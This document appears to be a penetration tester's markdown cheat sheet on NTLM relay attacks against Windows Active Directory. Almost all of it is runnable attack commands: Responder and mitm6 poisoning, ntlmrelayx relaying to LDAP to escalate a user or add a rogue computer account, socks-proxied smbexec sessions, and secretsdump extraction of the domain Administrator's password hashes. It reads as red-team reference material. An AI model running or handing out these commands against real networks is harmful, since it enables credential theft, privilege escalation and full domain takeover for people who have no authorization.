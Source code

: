 # How To NTLMRelay

## Notes
 - Configure /etc/proxychains.conf to not proxy DNS and use local port 1080:
   `#proxy_dns`
   `socks4 127.0.0.1 1080`   
 - Start ntlmrelayx with options socks:   
   `ntlmrelayx.py -tf targets.txt -smb2support -socks`  
 - Targets (systems without SMB signing) can be gathered with:   
   `crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt`
   `nxc smb 10.10.10.0/24 --gen-relay-list relaytargets.txt`
 - Try to escalate a given user:   
   `ntlmrelayx.py -t ldap://dc.domain.local --escalate-user USER --remove-mic -smb2support`   
 - Run secretsdump on domain administrator:   
   `secretsdump.py winlab.csnc.ch/hostname$@dc.winlab.csnc.ch -just-dc -just-dc-user Administrator`   
   
 Note: For the poisoning of broadcast messages, run Responder at the same time, but with SMB and HTTP server disabled for Responder. This is not required if you do targeted relaying where you trigger the victims connection to your ntlmrelayx host.   
 - Start Responder.py with SMB and HTTP disabled: (disable them in /root/vkoch/Responder/Responder.conf)   
   `sudo /opt/Responder/Responder.py -I eth1 -w -r -f -d`   

## Using the socks connection
 - Once there is an authenticated socks connection (check with command "socks" in ntlmrelayx console), it can be used with proxychains:   
   `proxychains smbexec.py 'DOMAIN/user:gugus@<target-ip>'`   
   `proxychains secretsdump.py random@100.2.2.2`   
   
- If you relay a machine account:   
   `proxychains smbexec.py 'DOMAIN/MACHINE$:gugus@<target-ip>'`   

## IPv6 DHCP poisoning
- Start rogue DHCPv6, where you specify the domain of your target:   
  `mitm6 -d domain.local`   
- Start ntlmrelayx to e.g. target LDAP on the DC (for querying AD information):   
  `sudo ntlmrelayx.py -6 -t ldap://dc01 --no-smb-server -wh attacker-wpad -h`   
## Fake machine account creation
- Start ntlmrelayx targeting a DC to add a computer:   
  `sudo ntlmrelayx.py -6 -t ldap://dc01 --add-computer --no-smb-server -wh attacker-wpad -h`   
- Run Responder with DHCP server:   
  `./Responder.py -I eth0 -Pdv`   
- After the new computer was created, you can use this to e.g. query SPNs in the domain:   
  `GetUserSPNs.py 'domain.local/NEWCOMPUTER$' -dc-ip 10.10.0.1`  
Note: Remember to cleanup the computer afterwards! (requires DA)	  

## Open Socks connection with authenticated domain user
- turn off smb and http in Responder.conf and run Responder:   
  `./Responder.py -I eth0`   
- generate relay targets:   
  `crackmapexec smb 192.168.1.0/24 --gen-relay-list relay.txt`   
- Run ntlmrelayx with socks option:   
  `ntlmrelayx.py -tf ./relay.txt -smb2support -socks`   
- set socks proxy in /etc/proxychains4.conf and use proxychains to e.g. lookup sids using the socks connection:   
  `proxychains lookupsid.py DOMAIN/USER@10.10.0.22 -no-pass -domain-sids`   
